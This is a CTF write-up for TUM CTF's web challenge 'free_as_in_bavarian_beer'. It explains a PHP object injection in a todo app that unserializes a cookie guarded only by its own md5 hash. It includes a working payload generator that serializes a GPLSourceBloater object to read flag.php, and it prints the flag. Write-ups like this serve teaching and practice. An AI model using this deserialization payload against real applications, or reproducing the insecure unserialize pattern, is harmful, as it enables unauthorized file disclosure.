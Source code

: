 ```yaml
---
layout: post
title: "TUM CTF: free_as_in_bavarian_beer (web 50)"
author: verr
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** Web
* **Points:** 50
* **Description:**

> You have lots of stuff to do? Better start using this cool tool.
> http://104.154.70.126:10888
> PROTIP: Flag is in flag.php.

([dumped Sourcecode](https://gist.github.com/stefan2904/21a3b0ca10163f9fced6ab3767a92a08))

## Write-up

Since it's the easiest web challenge, it was easily possible to dump the sourcecode. The app is a simple todo manager, which stores the tasks in a cookie. Reading the code, we quickly noticed the suspicious `unserialize`:

```php
<?php
if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);
    if(md5($m) === $h){
        $todos = unserialize($m);
    }
}
?>
```

This is a prime example for [PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection). In this case it was not necessary to dig deeper into PHP internal classes, since the class in need was conveniently already present; the class used to display the source (and eny other file) ...

```php
<?php
Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}
?>
```

So we need to build a `GPLSourceBloater` object, set its `source` attribute to the desired file (`flag.php`) and serialize it.

```php
<?

Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}

$foo = new GPLSourceBloater();
$foo->source = 'flag.php';

$bar = [];
$bar[] = $foo;

$m = serialize($bar);
$h = md5($m);

echo urlencode($h.$m);

?>
```

After storing the serialized object to a cookie named `todos` and loading the page again, `__toString()` did its job and we were presented with the flag: 

`hxp{Are you glad that at least Java(TM) isn't affected by serialization bugs?}`


